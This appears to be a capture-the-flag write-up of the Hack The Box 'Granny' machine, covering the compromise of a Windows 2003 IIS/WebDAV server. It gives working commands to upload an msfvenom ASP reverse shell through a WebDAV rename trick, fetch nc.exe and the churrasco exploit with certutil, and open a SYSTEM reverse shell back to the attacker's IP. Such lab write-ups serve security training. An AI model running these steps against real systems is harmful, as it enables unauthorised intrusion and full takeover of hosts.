







## Overview
Granny is a Windows 2003 box running IIS 6.0 and webdav. Webdav allowed anonymous uploads but required a bypass to upload an asp reverse shell. Once the shell was uploaded I got initial foothold by executing the uploaded file. I used an exploit called churrasco to call back to my machine with a shell as 'nt authority\system'

## Enumeration

**Software**
* Microsoft(R) Windows(R) Server 2003, Standard Edition
* Front Page Version - 5.0.2.6790

**Port Scan**
```
nmap -vv -Pn -sT -A -p- 10.10.10.15 -oN /mnt/data/boxes/granny/_full_tcp_nmap.txt
```
* 80/tcp - http



**DavTest**

```
davtest -url http://10.10.10.15
```



## Steps (user)

Browsing to http://10.10.10.15 showed the default "Under Contruction" page and no other useful information. 

According to the nmap scan this server was running webdav so I ran a scan with [davtest](https://github.com/cldrn/davtest) which  tests uploading different executable file types. There were quite a few different files that could be uploaded and only html and txt could be executed.

I connected to the server using a webdav client called cadaver. After running the help command I learned that the command "MOVE" was available. Using MOVE I was able to get around the restrictons by uploading a file with a .txt extension and renaming it to asp.


I created an asp reverse shell with msfvenom and output it to rshell.txt and started a netcat listener (rlwrap nc -lvnp 4200).

```
msfvenom -p windows/shell_reverse_tcp lhost=10.10.14.24 lport=4200 -f asp > rshell.txt
```

I then connected to webdav via cadaver and uploaded rshell.txt 

```
cadaver 10.10.10.15
put rshell.txt
```



With the file uploaded, I used 'move' to rename the file from rshell.txt to rshell.asp

```
move rshell.txt rshell.asp
```



I browsed to http://10.10.10.15/rshell.asp and received a shell as 'nt authority\network service'



## Steps (root/system)

The systeminfo command showed that only one hotfix was installed. I used a tool called Windows Exploit Suggester to identify which exploits the box was vulnerable to. The tool requires the output of the systeminfo command which I pasted to a file called "sysinfo.txt"

> [Windows-Exploit-Suggester](https://github.com/AonCyberLabs/Windows-Exploit-Suggester) github repo.

```
./windows-exploit-suggester.py -l --database 2019-11-17-mssb.xls --systeminfo sysinfo.txt
```



After not having any much luck with the windows-exploit suggester results, I tried an exploit called churrasco.

> Additional info about [churrasco](https://www.exploit-db.com/exploits/6705)

First I downloaded the exploit from Re4son's github repo

```
wget https://github.com/Re4son/Churrasco/raw/master/churrasco.exe
```

In prepration to use the exploit to create a reverse shell with netcat, I copied the nc.exe binary to my working directory.

```
cp ~/tools/windows-binaries/nc.exe .
```

I started a reverse listener (nc -lvnp 42301) and started a python http server

```
python3 -m http.server 80
```

I downloaded the netcat and the exploit to the local box

```
certutil -urlcache -split -f http://10.10.14.24/nc.exe
certutil -urlcache -split -f http://10.10.14.24/churrasco.exe
```

The exploit was run, specifying the netcat command with my box's IP/port resulting in a shell as 'nt authority\system'

```
churrasco.exe "nc -e cmd 10.10.14.24 4201"
```


